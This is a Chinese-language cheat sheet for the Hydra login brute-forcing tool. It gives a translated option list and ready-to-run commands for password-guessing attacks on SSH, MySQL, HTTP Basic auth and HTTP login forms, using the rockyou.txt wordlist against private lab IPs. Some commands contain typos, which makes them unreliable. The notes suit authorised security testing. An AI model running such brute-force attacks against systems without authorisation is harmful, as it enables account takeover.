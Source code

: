 ```yaml
---
title: Tools-hydra
author: AmtuOrRF
categories: [tools]
tags: [tools]
---
```


#help
一个非常快速的网络登录破解程序，支持许多不同的服务
```bash
选项：
  -R 恢复以前中止/崩溃的会话
  -我忽略现有的还原文件（不要等待 10 秒）
  -S 执行 SSL 连接
  -s PORT 如果服务位于不同的默认端口，请在此处定义
  -l LOGIN 或 -L FILE 使用 LOGIN 名称登录，或从 FILE 加载多个登录
  -p PASS 或 -P FILE 尝试密码 PASS，或从 FILE 加载多个密码
  -x MIN:MAX:CHARSET 密码暴力生成，输入“-x -h”获取帮助
  -y 禁止在暴力破解中使用符号，见上文
  -r 对选项 -x 使用非随机洗牌方法
  -e nsr 尝试“n”空密码，“s”作为通过登录和/或“r”反向登录
  -u 循环用户，而不是密码（有效！隐含在 -x 中）
  -C FILE 冒号分隔的“login:pass”格式，而不是 -L/-P 选项
  -M FILE 要攻击的服务器列表，每行一个条目，':' 指定端口
  -o FILE 将找到的登录名/密码对写入 FILE 而不是 stdout
  -b FORMAT 指定 -o FILE 的格式：text(default), json, jsonv1


-l admin	指定用户名
-p 12345	指定密码
-L user.txt	指定用户名字典
-P pass.txt	指定密码字典
-vV			显示过程信息
-t 10		线程 最大 64
-s 22		指定服务端口
-S			使用SSL协议连接
-R 			根据上一次进度继续破解
-C user:pass
-e <ns>		n空密码试探
-w <time>	超时
```


## hydra 使用示例

### 语法
```bash
hyara -l admin -p 123456 ssh://IP
hydra IP telnet -l admin -P pass.txt -vV
hydra IP telnet -P user.txt -P pass.txt -vV
hydra IP telnet -l admin -P pass.txt -vV -t 10
```


### 爆破ssh服务
暴力破解 Window ssh 服务 10个线程
```shell
hydra -l Administrator -P rockyou.txt ssh://172.16.1.200 -t 10
```

### 爆破运行在33060端口的mysql服务
-s 指定端口
```bash
hydra -l root -P rockyou.txt mysql://172.16.1.200 -s 33060 -t 10
```



### http-Basic
```bash
hydra 10.0.1.101 http-head "/development" -l admin -P pass
# Authorization: Basic
```


### http-post
```bash
# 查看帮助信息
hydra http-post-form -U

hydra IP http-form-post "/from/fromtpage.php:usr=admin&pwd=^PASS^:INVALID LOGIN" -l admin -P rockyou.txt -vV -f

hydra IP http-post-from "/login.php:uname=^USER^&pass=^PASS^:fales" -l admin -P rockyou.txt -f -vV
```

http登录暴力破解-判断成功/失败
```python
"login.php:user=^USER^&pass=^PASS^:S=logout"
# S 登录成功后才有的字符串
# 可能登录成功后的页面有 logout 字符串

"login.php:user=^USER^&pass=^PASS^:F=error"
# F 登录失败时才有的，成功则没有
```

